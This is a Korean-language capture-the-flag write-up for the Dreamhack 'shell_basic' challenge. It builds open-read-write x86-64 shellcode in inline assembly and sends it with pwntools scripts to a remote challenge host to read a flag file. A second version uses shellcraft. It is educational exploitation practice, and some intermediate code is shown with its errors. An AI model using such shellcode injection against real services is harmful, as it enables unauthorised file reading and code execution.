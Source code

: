 ## 📍shell_basic

```
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.  
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!
```

```
$ cat write.asm
section .text
global _start
_start:
    ;/* write(fd=1, buf='hello', n=48) */
    ;/* push 'hello\x00' */
    mov rax, 0x0a6f6c6c6568
    push rax
    mov rsi, rsp
    push 1
    pop rdi
    push 0x6
    pop rdx
    ;/* call write() */
    push 1
    pop rax
    syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
       1592461 segmentation fault  ./shell_basic
$
```


#### 해결

우선 execve 시스템콜을 막았다고 하니 orw 셸코드를 사용해보자.

위 파일 경로 `home/shell_basic/flag_name_is_loooooong`을 16진수 리틀 엔디안으로 변환하면 다음과 같다.
![](Attachments/0547A58F-151A-423A-89D6-7557434DB5FF.png)
```
0x676e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f
```

위에서 만든 orw.c 파일에 그대로 파일 경로만 붙여넣기해봤다.
(리눅스에서 실행할 수 있도록 c언어로 된 스켈레톤 코드에 셸코드를 탑재하는 것)
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"

        "push 0x67\n"
        "mov rax, 0x6e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f\n"
        "push rax\n"
        "mov rdi, rsp   # rdi = /tmp/flag'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

너무 길어서 그런지 에러가 났다.
![](Attachments/F112AC67-4468-4629-A03B-7E61CEB00CE7.png)

스택에는 8바이트 단위로만 값을 push할 수 있으므로, 위 문자열을 8바이트씩 쪼개준다.
```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

다시 push해서 스택에 차례대로 넣었다.
```c
"move rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"move rax, 0x6c5f73695f656d61\n"
"push rax\n"
"move rax, 0x6e5f67616c662f63\n"
"push rax\n"
"move rax, 0x697361625f6c6c65\n"
"push rax\n"
"move rax, 0x68732f656d6f682f\n"
"push rax\n"
```

#### 셸코드
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"
        
		"push 0x0\n"
        "mov rax, 0x676e6f6f6f6f6f6f\n"
		"push rax\n"
		"mov rax, 0x6c5f73695f656d61\n"
		"push rax\n"
		"mov rax, 0x6e5f67616c662f63\n"
		"push rax\n"
		"mov rax, 0x697361625f6c6c65\n"
		"push rax\n"
		"mov rax, 0x68732f656d6f682f\n"
		"push rax\n"
        "mov rdi, rsp   # rdi = /home/shell_basic/flag_name_is_loooooong'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

![](Attachments/281FB2EA-CFE7-4365-8B7C-7214D4CA793F.png)

`-d`는 디스어셈블 옵션이다.
여기서 orw에 필요한 셸코드만 추출한다.

![](Attachments/40832031-ABAA-4B56-B6B3-F69B5291DEBE.png)

```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

원래 이걸 통째로 shellcode: 에 입력하려고 했는데 그게 아닌 것 같다...
![](Attachments/8D2E4A2E-B184-4418-BC57-66FEB19E781B.png)

pwntools를 사용해서 파이썬 스크립트를 작성해봤다.
```python
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 14009)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

파일을 실행해주면 플래그가 반환된다.

![](Attachments/0877EAEA-773E-47BB-8DED-E6E0440552F4.png)


## 📍shell_basic 2

일단 orw 셸 코드를 작성해야 한다.

```c
//orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위 코드처럼 open-read-write를 하면 된다.
셸 코드를 작성해주는 pwntools의 `shellcraft()` 함수를 사용해 보자.

```python
from pwn import *

p = remote("host3.dreamhack.games", 10178)

context.arch = "amd64"
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)
# open 함수 결과는 rax 레지스터에 저장된다고 한다. fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(1, buf, 0x30)
shellcode = asm(shellcode)   # shellcode를 기계어로 변환하여 대입

payload = shellcode
p.sendlineafter("shellcode: ", payload)
print(p.recv(0x30))
```

![](Attachments/0A93E382-E201-49BE-86FA-C61D122A1C72.png)

성공 🚩